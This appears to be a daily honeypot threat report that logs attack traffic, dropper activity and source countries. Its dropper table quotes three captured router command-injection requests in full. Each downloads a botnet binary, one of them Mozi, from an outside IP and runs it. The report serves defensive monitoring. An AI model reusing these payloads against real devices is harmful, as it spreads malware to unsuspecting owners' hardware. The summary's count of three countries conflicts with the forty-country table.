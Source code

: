 ```yaml
---
title: "Report: 2025-05-04 "
date: 2025-05-04
desciption: "Report: 2025-05-04" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-04 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 38 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1284 requests were recorded during the day, originating from 3 different countries, with a peak of 309 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| MD               | Israel             |
| US               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                                                                                                                    |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.95.147.209 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1                                                                                                  |
| 45.230.66.13  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.13:10207/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                               |
| 185.218.84.39 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+arm7;wget+http:/\x5C/176.65.144.76/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.144.76/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  31 |                     4 | GET /files/logo.png HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  49 |                     4 | GET /favicon.png HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 172 |                     1 | GET /config/index?time=1746374281881848921 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 177 |                     1 | GET /api/bin/440393?time=1746324116250585247 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 178 |                     1 | POST /api/user/binLookup?time=1746324116666705000 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 185 |                     1 | \x00\x0E8\xED\xF5b\x90l\x10B\xAB\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 194 |                     1 | GET /odinhttpcall1746352327 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 196 |                     1 | \x00\x0E8\x836\xF3\xFE&\x93\xBAr\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 201 |                     1 | \x00\x00\x00\xE0Z\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x05\x01=K\x00\x00\x01\x01\x11\x08\xA8\xC0\xD8C\xAEC\x95x/\x00admin\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x81\x89\x02\x81\x81\x00\xC5U@foU\xFA\xFDw\x9B[/Ua\x96\xFEI\x9B]v\xAD\xA4\xEF<za\xADg\xCCiM2\x80\x83i\xA9\x90l\xC1\xBD\x9C\x90\x9CZ\xF3\x1E\x97v\xFE\x81\x1EK\x84\xB4A\x0B\xFF\xE5\xAE\xA2\xEA\x80\xCF\x08f\xCF5Q\xC4Xb7B\xE6\xC4\xDFt \x91\x22+S/\x11\xAD\xAB\xA7\xD4V\xBA |
| 211 |                     1 | GET /config/index?time=1746321857886113088 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 212 |                     1 | GET /api/bin/440393?time=1746323417228562651 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 213 |                     1 | POST /api/user/binLookup?time=1746323417719886430 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 214 |                     1 | \x00\x0E8\xB9>y\x81\xEC\xAB\xA8\xF5\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 215 |                     1 | GET /Odin/http/call1746352327 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 218 |                     1 | GET /config/index?time=1746373380679290715 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 219 |                     1 | GET /api/bin/440393?time=1746373447955576035 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 220 |                     1 | POST /api/user/binLookup?time=1746373449123467933 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 230 |                     1 | GET /index.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 231 |                     1 | GET /index_dev.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 232 |                     1 | GET /dev.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 233 |                     1 | GET /_debug/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 243 |                     1 | GET /test.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 245 |                     1 | GET /debug/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 247 |                     1 | GET /profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 250 |                     1 | GET /OdinHttpCall1746352327 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 265 |                     1 | GET /debug.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 270 |                     1 | GET /frontend_dev.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 271 |                     1 | GET /backend_dev.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 272 |                     1 | GET /api_dev.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 273 |                     1 | GET /app.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 274 |                     1 | GET /app_test.php/_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 276 |                     1 | GET /config/index?time=1746321582188462063 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 277 |                     1 | GET /api/bin/440393?time=1746322852895496875 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 278 |                     1 | POST /api/user/binLookup?time=1746322853288445349 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 305 |                     1 | GET /api/bin/440393?time=1746375420897080633 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 312 |                     1 | \x00\x0E8\x1D\x86\x7F\x07\xB7\xE0\xA3\xC1\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 337 |                     1 | POST /api/user/binLookup?time=1746375421304626215 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 342 |                     1 | GET /config/index?time=1746322271535306402 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   309 | US                 |
|  1 |                   223 | NL                 |
|  2 |                   194 | GB                 |
|  3 |                   148 | DE                 |
|  4 |                    76 | HK                 |
|  5 |                    58 | PL                 |
|  6 |                    53 | CN                 |
|  7 |                    45 | SC                 |
|  8 |                    22 | MD                 |
|  9 |                    19 | RU                 |
| 10 |                    14 | CA                 |
| 11 |                    12 | AZ                 |
| 12 |                    11 | UA                 |
| 13 |                    10 | KR                 |
| 14 |                     9 | BG                 |
| 15 |                     9 | GH                 |
| 16 |                     8 | AO                 |
| 17 |                     7 | JP                 |
| 18 |                     7 | BE                 |
| 19 |                     6 | IN                 |
| 20 |                     5 | AT                 |
| 21 |                     5 | RO                 |
| 22 |                     4 | SG                 |
| 23 |                     3 | VN                 |
| 24 |                     3 | CH                 |
| 25 |                     2 | CV                 |
| 26 |                     2 | AR                 |
| 27 |                     2 | MC                 |
| 28 |                     2 | CO                 |
| 29 |                     2 | AU                 |
| 30 |                     2 | ID                 |
| 31 |                     2 | SA                 |
| 32 |                     2 | NO                 |
| 33 |                     2 | NG                 |
| 34 |                     1 | HU                 |
| 35 |                     1 | LB                 |
| 36 |                     1 | ES                 |
| 37 |                     1 | PA                 |
| 38 |                     1 | ZA                 |
| 39 |                     1 | NZ                 |
